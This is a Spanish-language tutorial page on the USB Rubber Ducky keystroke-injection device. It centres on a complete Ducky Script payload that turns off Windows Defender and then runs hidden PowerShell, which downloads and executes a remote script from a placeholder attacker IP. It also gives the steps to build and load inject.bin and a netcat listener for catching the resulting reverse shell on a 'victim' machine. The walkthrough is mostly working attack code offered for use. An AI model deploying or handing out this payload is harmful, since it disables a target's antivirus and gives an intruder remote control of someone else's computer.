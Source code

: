 ```yaml
---
icon: duck
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Rubber Ducky

Es un USB aparentemente normal, pero en su interior tiene un hardware que simula ser un teclado, por lo que cuando se conecta a un dispositivo, este lo reconoce como un teclado y permite ejecutar scripts escribiendolo todo de forma automatica como un teclado programable a tu manera.

## <mark style="color:purple;">Explicación practica</mark>

Podremos programar el USB con su propio lenguaje de script que esta establecido en la siguiente pagina:

URL = [Pagina Script Rubber Ducky](https://payloadstudio.com/community/)

Por ejemplo cuando queramos ejecutar un script en algun equipo como por ejemplo en windows, podremos programar al USB para que cuando se inserte de forma automatica haga una serie de opciones las cuales hayamos programado, por ejemplo si queremos que desactive el firewall de windows y se ejecute un script que creara una `Reverse Shell`, podremos utilizar el siguiente script:

```txt
REM Turn off Windows Defender
REM
DELAY 1000
CTRL ESC
DELAY 400
STRING pr
ENTER
DELAY 1000
TAB
DELAY 400
TAB
DELAY 400
TAB
DELAY 400
TAB
DELAY 400
ENTER
DELAY 1000
SPACE
DELAY 400
LEFT
DELAY 400
ENTER
DELAY 400
TAB
DELAY 400
SPACE
DELAY 400
TAB
DELAY 400
SPACE
DELAY 400
TAB
DELAY 400
TAB
DELAY 400
SPACE
DELAY 400
ALT F4
DELAY 1000
GUI r
DELAY 400
STRING powershell -w hidden "IEX(New-Object Net.WebClient).downloadString('http://<IP>/PS.ps1')"
ENTER
```

Ahora solo tendremos que darle a la opcion `Default US`, darle a `Lenguage: us.json` y establecerlo como `es.json` para tener el teclado en español y que los caracteres especiales no fallen, echo esto bajaremos abajo del todo y le daremos a la opcion `Generate Payload`, lo que nos generara un archivo llamado `inject.bin` el cual sera el que tendremos que pegar en el interior del pendrive.

Para hacer esto, tendremos que abrir el pendrive la carcasa y extraer la `micro SD` que lleva conectada, mediante un USB adaptador de `micro SD` lo conectaremos al equipo para pegar en el interior de la carpeta `SD` el archivo `.bin`

Echo esto anterior desconectaremos la `SD` y la volveremos a coenctar al USB `Rubber Ducky`

Antes de conectar el USB al equipo Victima, tendremos que tener en nuestro equipo Atacante un servidor abierto para que se descargue nuestro archivo malicioso llamado `PS.ps1` de powershell que hayamos programado para objetener una `Reverse Shell`.

```shell
rlwrap nc -nvlp <PORT>
```

Con esto estaremos a la escucha junto con cualquier direccion IP establecida como `0.0.0.0`

Por lo que cuando conectemos el USB al equipo Victima, se desactivara el `Windows Defender` y se ejecutara el script para obtener acceso a la maquina Victima.

Con esto se puede hacer muchas mas cosas que una `Reverse Shell`, pero tiene sus limitaciones igualmente.

